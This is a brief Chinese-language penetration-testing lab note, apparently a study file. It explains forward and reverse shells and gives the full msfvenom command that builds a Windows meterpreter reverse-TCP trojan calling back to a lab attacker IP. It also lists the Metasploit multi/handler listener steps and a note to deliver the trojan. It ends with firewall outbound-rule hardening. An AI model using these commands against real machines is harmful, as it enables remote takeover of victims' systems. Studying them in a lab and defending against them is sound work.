



1.正向/反向连接
- 反向连接:靶机主动连接攻击机的指定端口，建立通信.
- 适用场景：靶机在 NAT 内网、攻击机有公网 IP 或可被靶机访问时.

- 正向连接:靶机开放一个端口，攻击机主动连接该端口建立通信.
- 适用场景：攻击机可直接访问靶机.

2.制作木马,监听端口
- 在kali终端输入命令,制作木马
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.201.130 lport=8888 -f exe -o payload.exe
- 投放木马

- 开启端口并监听：输入msfconsole,输入search handler查找监听模块，输入use exploit/multi/handler,再设置攻击机ip和端口，监听

3.主机安全加固
- 打开高级防火墙，创建出站规则[新建规则->选择“端口”->选择TCP协议，特定端口->选择“阻止连接”->应用到“域、专用、公用”->命名]
